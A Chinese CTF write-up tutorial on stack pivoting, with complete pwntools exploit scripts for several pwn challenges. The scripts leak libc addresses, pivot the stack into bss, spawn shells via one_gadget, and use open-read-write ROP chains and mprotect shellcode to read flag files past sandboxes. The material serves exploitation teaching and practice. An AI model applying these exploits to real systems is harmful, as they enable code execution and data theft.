

# 栈迁移（Stack Pivoting）进阶 - 先知社区

栈迁移（Stack Pivoting）进阶

* * *

# 栈迁移进阶

栈迁移（Stack Pivoting）是一种在漏洞利用中常见的技术，用于改变栈的正常行为，特别是在缓冲区溢出等安全漏洞的情况下。栈迁移的核心在于修改栈指针（如 x86 架构中 ESP 寄存器）的值，使其指向攻击者控制的数据区域。在实际应用中，我们常通过劫持ebp和esp将栈劫持到bss段。

在栈迁移十分关键的就是对leave,ret;这段gadget的利用

> leave == mov esp,ebp; pop ebp;  
> ret == pop eip #弹出栈顶数据给eip寄存器

#### alittle

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170236-e2d3f788-845e-1.png)

```plain
bss6 = 0x601000+0x600
pl = b'a'*0x20+p64(bss6)+p64(read) #rbp=bss6 -> rax=bss6+(-0x20)
p.send(pl)
```

但read后会往后执行会走向结束，rsp并没有被我们所控制，所以我们还不能控制程序流

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170243-e6ea0f1a-845e-1.png)

回头看一下leave处 `mov esp,ebp; pop ebp;`​，应该是leave前0x60

1600未能放入rbp导致的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170249-eaa9dd1a-845e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170254-edb2df84-845e-1.png)

再构造一次read，并调整rsp

```plain
pl = b'a'*0x20+p64(bss6+0x20)+p64(read) #2
p.send(pl)
```

这里bss6所加的就是buf的偏移

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170301-f1968a92-845e-1.png)

rsp调试正常后，那么我们下一次则可以进行rop链构造

```plain
#puts(puts_got)
pl = p64(bss6+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
```

​`bss6+0x20`​基础上再加0x10（固定模板）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170308-f5ee2db6-845e-1.png)

‍

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170312-f84f2790-845e-1.png)

```plain
pl = b'a'*0x20+p64(bss6+0x40)+p64(read) #4
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170320-fd66d714-845e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170324-ff8c579e-845e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170328-022e8fe4-845f-1.png)

蚌埠住了，栈平衡真的好玄学，sys调了好久都不行，换og一把出了

```plain
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe
pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
p.send(pl)

'''
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170334-0588b2d2-845f-1.png)

‍

#### alittle-up

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170338-0822b9c0-845f-1.png)

相较前一题加了个沙盒

exp：

```plain
bss = 0x601060 -0x60 +0x400
li(hex(bss))

main = 0x400790
read = 0x4007B1

rdi = 0x400833
ret = 0x040053e

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

p.recv(0x13)

pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)

pl = p64(bss+0x110)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
p.send(pl)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-libc.sym['puts']
li(hex(libc_base))

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']


pl = b'a'*0x100+p64(bss+0x120)+p64(read) #4
p.send(pl)

rsi_r15 = 0x400831

pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main) #5
p.send(pl)
pause()
p.send('flag')

p.recv()
pl = b'a'*0x100+p64(bss+0x300)+p64(read) #6
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read) #7
p.send(pl)

syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main) #8
#dbg()
p.send(pl)
```

‍

pl 1、2正常起手，pl 3来获取libc地址

```plain
pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)
```

‍

> read()
> 
> 文件描述符：0标准输入，1标准输出，2标准报错，3、4、5 .. 第一、二、三 ...个文件
> 
> ‍
> 
> ORP和ORW：
> 
> puts更方便，只需要一个参数，而write需要多次传参
> 
> 但puts遇到'x00'停止，有些ex的flag可能会故意带上'\\x00'

‍

将flag读入bss段

```plain
pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main)
dbg()
p.send(pl)
pause()
p.send('flag')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170350-0ee87556-845f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170354-115f8522-845f-1.png)

pl 6、7再次构造，并调整rsp

```plain
pl = b'a'*0x100+p64(bss+0x300)+p64(read)
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read)
p.send(pl)
```

pl 8 构造的rop送入

```plain
syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main)
#dbg()
p.send(pl)
```

‍

#### move your heart

首先伪随机数很好获取，绕过后到back()，获取了stack地址

```plain
sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170437-2b5949c2-845f-1.png)

首先第一点就是back()里的read就是向stack地址输入的

```plain
pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

直接栈迁移到pl的前一栈帧处，然后执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170444-2f2085c0-845f-1.png)

```plain
def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
system = 0x4010D4

pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

‍

##### og模板解法：

两次leave\_ret，构造read(0,stack-0x20,0x30)，重复的第二次是为了调整rsp，控制程序流

```plain
pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)

pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)
```

接下来构造一次正常的rop链泄露libc

```plain
pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))

system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

这里选择再跳转到main函数，接收到新的stack地址

```plain
sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16)
```

重复刚才的1、2的步骤

```plain
pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)
```

将og送入，从而getshell

```plain
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)
```

og的模板exp:

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node.yuzhian.com.cn',30686)
else:
    p = process(name)

elf = ELF(name)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss6 = elf.bss() + 0x600
li('bss = '+hex(bss6))

ret = 0x000000000040101a 
rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6
ret = 0x000000000040101a

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
sys = 0x4010D4

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)


pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)

'''
pl = p64(bss6+0x20+0x10)+p64(ret)+p64(rdi)+b"/bin/sh"+p64(sys)
'''

pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))


system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16) 


pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)

r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)


itr()
```

‍

### VN2023-Traveler

限制0x10大小的栈迁移

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node4.buuoj.cn',29758)
else:
    p = process(name)


libcso = '/lib/x86_64-linux-gnu/libc-2.31.so'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()
li('bss = '+hex(bss))


bss4=bss+0x400
bss6=bss+0x600
read=0x401216
main=0x4011F4
rdi=0x4012c3
rsi_r15=0x4012c1
ret=0x40101a
sys=0x401090
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
ru('who r u?\n')
pl=b'a'*0x20+p64(bss4)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')
pl=b'a'*0x20+p64(bss4+0x20)+p64(read)
s(pl)
ru('life?\n')
sl(b'/bin/sh\x00')

'''
pl=p64(bss4+0x30)+p64(ret)+p64(rdi)+p64(0x4040a0)+p64(sys)
dbg()
s(pl)
'''

pl=p64(bss4+0x30)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl)

libc_base=l64()-libc.sym['puts']
li(hex(libc_base))
pop_rdi = libc_base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = libc_base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx = libc_base + libc.search(asm('pop rdx;ret;')).__next__()
pop_r12 = libc_base + libc.search(asm('pop r12;ret;')).__next__()
ogs = [0xe3afe,0xe3b01,0xe3b04]
og = libc_base + ogs[0]

ru('who r u?\n')
pl=b'a'*0x20+p64(bss6)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')
pl=b'a'*0x20+p64(bss6+0x20)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')

pl=p64(bss4+0x30)+p64(pop_r12)+p64(0)+p64(og)
#dbg()
s(pl)

itr()
```

‍

### 黄河流域-Sandbox

同上一题只有0x10大小构造，优先考虑栈迁移

泄露libc地址后，构造rop链来orw

由于read读入空间不够，orw分两次送入

```plain
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

#r=process('./pwn')
r=remote('1.13.251.106',8002)
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)


pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)


pay=p64(bss+0x70)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.send(pay)

leak=u64(r.recv(6)+b'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pop_rdi = base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx12 = base + libc.search(asm('pop rdx;pop r12;ret;')).__next__()
read_addr = base + libc.sym['read']

r.recv()
pay=b'a'*0x60+p64(bss5)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss5+0x60)+p64(read)
r.send(pay)


pay=p64(bss5+0x70)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x404900)+p64(0x40)+p64(base+libc.sym['read'])+p64(main)
r.send(pay)

sleep(0.1)
r.send("./flag")


r.recv()
pay=b'a'*0x60+p64(bss6)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss6+0x60)+p64(read)
r.send(pay)


pay=p64(bss6+0x70)+p64(rdi)+p64(0x2)+p64(rsi_r15)+p64(0x404900)+p64(0)+p64(base+libc.sym['syscall'])
pay+=p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x404900)+p64(0x100)+p64(base+libc.sym['read'])+p64(main)
r.send(pay)

r.recv()
pay=b'a'*0x60+p64(bss7)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss7+0x60)+p64(read)
r.send(pay)

pay=p64(bss7+0x70)+p64(pop_rdi)+p64(1)+p64(rsi_r15)+p64(0x404900)+p64(0x100)+p64(base+libc.sym['write'])+p64(main)
r.send(pay)


r.interactive()
```

‍

### 西湖论剑-Message Board

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170501-39ad1724-845f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170505-3ba9e958-845f-1.png)

格式字符串漏洞获取栈地址，下一处读入利用栈地址获取libc基址

```plain
payload = p64(stack_addr+0xb0+0x28) #rbp
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```

两次leave\_ret将rsp矫正

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170511-3f377bd0-845f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170515-41f63c76-845f-1.png)

**orw：**

布置为stack\_addr+0x28-8，执行orw

```plain
payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170522-45cc390e-845f-1.png)

```plain
orw = p64(pop_rdi)+p64(stack_addr+0xd0)+p64(pop_rsi)+p64(0)+p64(open_addr)
#open(stack_addr+0xd0,0)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(elf.bss()+0x800)+p64(pop_rdx)+p64(0x50)+p64(elf.plt["read"])
#read(3,elf.bss()+0x800,0x50)
orw += p64(pop_rdi)+p64(elf.bss()+0x800)+p64(elf.plt["puts"])
#puts(elf.bss()+0x800)
orw = orw.ljust(0xa8,b'\0')+b'./flag\x00\x00'

orw+= p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(orw)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116170529-49e6b12c-845f-1.png)

exp：

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('tcp.cloud.dasctf.com',23820)
else:
    p = process(name)

libcso = './libc.so.6'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()-0x80
bss4=bss+0x400
li(hex(bss4))
pop_rdi=0x401413
ret=0x40101a
leave=0x4012e0
read=0x401378
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

ru('name:\n')
sl('%28$p')
ru('Hello, ')
stack_addr = int(p.recv(14),16)-0x1a0 
li('stack_addr = '+hex(stack_addr))

ru(b'Now, please say something to DASCTF:\n')

payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)

libc_base=l64()-libc.sym['puts']
li('libc_base = '+hex(libc_base))

pop_rsi = libc_base+0x000000000002601f 
pop_rdx = libc_base+0x0000000000142c92
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

orw = p64(pop_rdi)+p64(stack_addr+0xd0)+p64(pop_rsi)+p64(0)+p64(open_addr)
#open('./flag\x00\x00',0)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(elf.bss()+0x800)+p64(pop_rdx)+p64(0x50)+p64(elf.plt["read"])
#read(3,elf.bss()+0x800,0x50)
orw += p64(pop_rdi)+p64(elf.bss()+0x800)+p64(elf.plt["puts"])
#puts(elf.bss()+0x800)
orw = orw.ljust(0xa8,b'\0')+b'./flag\x00\x00'

orw+= p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(orw)

itr()
```

**另一种mproetct+shellcode：**

```plain
mp = p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0x1000)+p64(pop_rdx)+p64(7)+p64(mproetct)
#mproetct(bss,0x1000,7)
mp += p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss+0x600)+p64(pop_rdx)+p64(0x300)+p64(elf.plt["read"])
#read(0,bss+0x600,0x300)
mp += p64(bss+0x600)
#shellcode
mp = mp.ljust(0xb0,b'\0')
mp += p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(mp)

ru(b'Posted Successfully~\n')
sc = asm(shellcraft.cat(b"./flag"))
p.send(sc)
```

‍

附件.zip (0.833 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231116173747-cd45d936-8463-1.zip)
